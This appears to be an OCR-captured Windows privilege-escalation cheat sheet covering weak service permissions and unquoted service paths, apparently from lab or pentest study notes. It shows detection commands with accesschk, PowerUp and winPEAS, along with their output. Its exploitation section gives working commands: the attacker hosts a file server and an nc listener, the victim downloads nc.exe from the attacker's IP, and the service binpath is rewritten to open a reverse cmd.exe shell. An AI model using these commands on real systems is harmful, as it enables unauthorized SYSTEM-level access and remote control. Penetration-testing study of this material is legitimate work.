if SERVICE_ALL_ACCESS then vulnerable

# Find all weak folder permissions per drive.
accesschk.exe /accepteula -uwdqs Users c:\
accesschk.exe /accepteula -uwdqs "Authenticated Users" c:\

# Find all weak file permissions per drive.
accesschk.exe /accepteula -uwqs Users c:\*.*
accesschk.exe /accepteula -uwqs "Authenticated Users" c:\*.*
or

powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking service permissions...

ServiceName   : daclsvc
Path          : "C:\Program Files\DACL Service\daclservice.exe"
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'daclsvc'
CanRestart    : True
or

winPEAS.exe

[+] Interesting Services -non Microsoft-(T1007)

daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped
	YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles

[+] Modifiable Services(T1007)
	LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
	daclsvc: WriteData/CreateFiles
Exploitation
# Attacker
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/nc.exe', '.\nc.exe')
sc config <SERVICENAME> binpath= "<PATH>\nc.exe <IP> <PORT> -e cmd.exe"
sc start <SERVICENAME>
or 
net start <SERVICENAME>
Unquoted service paths
Detection
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking for unquoted service paths...

ServiceName    : unquotedsvc
Path           : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
ModifiablePath : @{Permissions=AppendData/AddSubdirectory; ModifiablePath=C:\;IdentityReference=NT AUTHORITY\Authenticated Users}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'unquotedsvc' -Path <HijackPath>
CanRestart     : True
